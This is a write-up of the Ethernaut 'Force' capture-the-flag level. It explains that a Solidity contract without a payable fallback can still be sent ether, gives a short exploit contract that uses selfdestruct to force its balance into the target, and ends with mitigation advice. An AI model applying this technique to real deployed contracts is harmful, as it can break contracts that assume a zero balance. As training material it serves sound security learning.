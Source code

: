 ```yaml
---
title: Level 7 - Force
slug: level-7
published: 05-17-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut7.svg
---
```


## Objectives

1. Make the Force contract have a balance greater than 0.

## Vulnerabilities

### Expecting that a contract can't hold any ether

A contract that doesn't have a payable fallback function doesn't prevent that contract to have
a positive balance.

## Exploit

1. Write and deploy a simple hack contact like the following:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IForce {}

contract ForceHack {
    IForce target;

    constructor(address _targetAddress) payable {
        target = IForce(_targetAddress);
    }

    function kaboom() external {
        selfdestruct(payable(address(target)));
    }
}
```

2. Call the `kaboom` function to `selfdestruct` the ForceHack contract and send the balance to
   the Force contract.

## Suggested mitigation

1. Simply never rely on the contract having a 0 balance.

## Further reading

- SWC-132 - Unexpected ether balance <ExternalLink href={"https://swcregistry.io/docs/SWC-132"} />

